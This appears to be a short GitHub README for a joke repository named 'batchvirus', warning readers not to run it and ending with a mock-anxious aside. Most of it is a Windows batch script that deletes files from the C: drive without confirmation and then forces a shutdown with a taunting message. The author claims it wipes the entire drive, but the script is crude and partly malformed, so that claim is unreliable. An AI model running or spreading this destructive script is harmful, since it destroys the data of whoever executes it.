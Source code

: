 # batchvirus
Don't run this on your system, it will delete your entire C: drive.
What does it look like?
```batch
@Echo off
Del C:\ *.* |y
shutdown -s -t 45 /c  Since I haven't ran this, this may not show up. But if it does, I fucked up your system. G'day!
```
also I'm scared I'll run it by accident it makes me break into a cold sweat during the nights and I can barely function during the day help me
